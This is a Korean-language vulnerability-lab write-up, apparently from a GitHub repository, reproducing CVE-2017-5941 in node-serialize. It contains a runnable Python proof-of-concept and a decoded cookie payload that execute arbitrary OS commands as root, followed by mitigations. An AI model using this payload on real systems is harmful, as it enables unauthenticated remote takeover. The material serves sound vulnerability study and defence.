



# CVE-2017-5941

**Contributors**

- [신준서 (@mu1aq)](https://github.com/mu1aq)

<br/>

# Node.js node-serialize 역직렬화 원격 코드 실행 취약점 (CVE-2017-5941)

- Node.js 직렬화 라이브러리 **node-serialize** 의 `unserialize()` 는 값이 `_$$ND_FUNC$$_` 문자열로 시작하면 이를 함수로 간주하여 `eval()` 로 복원한다.
- 만약 페이로드에 즉시 실행 함수(IIFE (Immediately Invoked Function Expression) `{...}()`, 마지막에 함수를 뜻하는 `()` 입력) 를 넣으면 역직렬화되는 시점에 임의 코드가 실행된다.
- 신뢰할 수 없는 입력(쿠키 등)을 `unserialize()` 에 그대로 전달하면 **인증 없이 원격 코드 실행(OS Command Execution)** 이 가능하다.
- 영향 버전: `node-serialize` 0.0.4 (마지막 배포 버전, 미패치). CWE-502 (Deserialization of Untrusted Data).
- Risk Score: 9.8 (AV:N / AC:L / PR:N / UI:N / S:U / C:H / I:H / A:H) — no authentication required, remote, complete system takeover

참고자료
- <https://nvd.nist.gov/vuln/detail/CVE-2017-5941>
- <https://www.exploit-db.com/exploits/50036>
- <https://avd.aquasec.com/nvd/2017/cve-2017-5941/>
- <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>
- <https://cwe.mitre.org/data/definitions/502.html>
- <https://github.com/advisories/GHSA-q4v7-4rhw-9hqm>


<br/>

## 환경 구성

- 취약 라이브러리를 사용하는 최소 Express 애플리케이션 하나로 구성된다.
- 구성 파일
  - `Dockerfile` — `node:16-alpine` 기반, `node-serialize@0.0.4` 를 버전 고정하여 설치
  - `app.js` — 쿠키 `profile`(base64 인코딩된 JSON)을 `serialize.unserialize()` 로 복원하는 취약 엔드포인트
  - `docker-compose.yml` — `web` 서비스, `31337:31337` 포트 노출
  - `poc.py` — 공격 페이로드 전송 및 결과 확인 스크립트
- 실행
  ```bash
  docker compose up -d --build
  ```
- 접속 확인: `http://localhost:31337/`



<br/>

## 3. 취약 조건

- `node-serialize` 0.0.4 사용.
- 애플리케이션이 공격자가 제어 가능한 입력(여기서는 HTTP 쿠키 `profile`)을 검증 없이 `unserialize()` 에 전달.
- 별도의 인증이나 사용자 상호작용이 필요하지 않다.

<br/>

## 4. 재현 절차

```bash
# 1) 취약 환경 기동
docker compose up -d --build

# 2) 필요 라이브러리 없음 (표준 라이브러리만 사용)

# 3) PoC 실행 — 컨테이너 안에서 원하는 명령 실행
python3 poc.py http://localhost:31337 "id"
python3 poc.py http://localhost:31337 "uname -a"
```

- PoC 는 `profile` 쿠키에 악성 페이로드를 넣어 요청한다.
- 서버가 이를 역직렬화하며 명령을 실행하고, 그 출력이 응답 본문 `Welcome <출력>` 에 그대로 반환된다.
- window에서 microsoft store에서 python을 설치한 것이 아니라면 py 또는 python 명령어로 실행하면 잘 동작한다.

<br/>

## 5. PoC 코드

`poc.py` (표준 라이브러리만 사용, 복붙 실행 가능):

```python
#!/usr/bin/env python3
# CVE-2017-5941 — node-serialize unserialize() RCE PoC
import sys, json, base64, urllib.request, urllib.error

base = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:31337"
cmd  = sys.argv[2] if len(sys.argv) > 2 else "id"

func = "_$$ND_FUNC$$_function(){return require('child_process').execSync('%s').toString();}()" % cmd
payload = json.dumps({"username": func})
cookie = base64.b64encode(payload.encode()).decode()

req = urllib.request.Request(base, headers={"Cookie": "profile=" + cookie})
try:
    with urllib.request.urlopen(req, timeout=15) as r:
        print("[+] HTTP", r.status)
        print(r.read().decode(errors="replace"))
except urllib.error.HTTPError as e:
    print("[!] HTTP", e.code)
    print(e.read().decode(errors="replace"))
```

핵심 페이로드(디코드 시):
```json
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('id').toString();}()"}
```

<br/>

## 6. 실행 결과

`python3 poc.py http://localhost:31337 "id"` 실행 시 응답:

```
[+] HTTP 200
Welcome uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),...
```

`uname -a` 실행 시:

```
[+] HTTP 200
Welcome Linux <container-id> ... x86_64 Linux
```

컨테이너 내부에서 **root 권한으로 임의 OS 명령이 실행**됨을 확인할 수 있다.




<br/>

## 7. 대응 방안

- 신뢰할 수 없는 입력을 절대 `unserialize()` / `eval()` 계열에 전달하지 않는다.
- 직렬화가 필요하면 코드 실행이 불가능한 안전한 포맷(`JSON.parse` / `JSON.stringify`)만 활용한다.
- `node-serialize` 처럼 함수 직렬화를 지원하는(그리고 미패치인) 라이브러리 사용을 중단한다.
- 입력값 검증·무결성 서명(HMAC)으로 쿠키/토큰 위·변조를 차단한다.
- 컨테이너를 root 가 아닌 최소 권한 사용자로 실행하여 피해 범위를 줄인다.
- `node-serialize` 대신 `serialijse`, `serialize-to-js`, `serialize-javascript` 등 지속적인 업데이트가 일어나고 있는 것 들을 사용하는 것이 좋다.

<br/>

## 참고

- CWE-502: Deserialization of Untrusted Data
- npm: node-serialize (0.0.4, 미패치, deprecated)
